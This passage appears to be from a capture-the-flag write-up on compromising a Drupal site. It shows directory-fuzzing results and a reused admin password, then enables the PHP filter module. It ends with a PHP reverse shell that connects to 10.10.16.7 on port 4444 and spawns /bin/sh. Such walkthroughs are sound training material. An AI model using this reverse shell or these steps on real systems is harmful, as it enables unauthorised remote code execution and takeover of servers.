 ```bash
README                  [Status: 200, Size: 5382, Words: 684, Lines: 124, Duration: 34ms]
robots                  [Status: 200, Size: 2189, Words: 158, Lines: 91, Duration: 25ms]
INSTALL                 [Status: 200, Size: 17995, Words: 2955, Lines: 401, Duration: 23ms]
LICENSE                 [Status: 200, Size: 18092, Words: 3133, Lines: 340, Duration: 334ms]
User                    [Status: 200, Size: 8940, Words: 901, Lines: 173, Duration: 549ms]
Admin                   [Status: 403, Size: 7393, Words: 800, Lines: 157, Duration: 516ms]
Template                [Status: 403, Size: 295, Words: 22, Lines: 12, Duration: 75ms]
CHANGELOG               [Status: 200, Size: 111859, Words: 17350, Lines: 2313, Duration: 461ms]
COPYRIGHT               [Status: 200, Size: 1481, Words: 221, Lines: 45, Duration: 58ms]
batch                   [Status: 403, Size: 7686, Words: 819, Lines: 161, Duration: 1143ms]
SEARCH                  [Status: 403, Size: 7398, Words: 800, Lines: 157, Duration: 392ms]
Repository              [Status: 403, Size: 297, Words: 22, Lines: 12, Duration: 45ms]

```

We can also confirm the version from CHANGELOG:

![image.png]({{ site.baseurl }}/assets/hawk/image%201.png)

Let’s login with the credential we got before:

```bash
admin:PencilKeyboardScanner123
```

Since this is version before drupal 8, we can enable the php module, so we can create a php reverse shell in a basic page later. Let’s do the first step first:

Go to Modules and tick PHP filter:

![image.png]({{ site.baseurl }}/assets/hawk/image%202.png)

After it’s enabled, we need to go to the right hand side of PHP filter, click on permissions, enable PHP code:

![image.png]({{ site.baseurl }}/assets/hawk/image%203.png)

![image.png]({{ site.baseurl }}/assets/hawk/image%204.png)

And save the configuration.

Now let’s create our basic page with reverse shell:

Create a basic page with content:

```bash
<?php

$sock=fsockopen("10.10.16.7",4444);
$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);

?>
```

![image.png]({{ site.baseurl }}/assets/hawk/image%205.png)
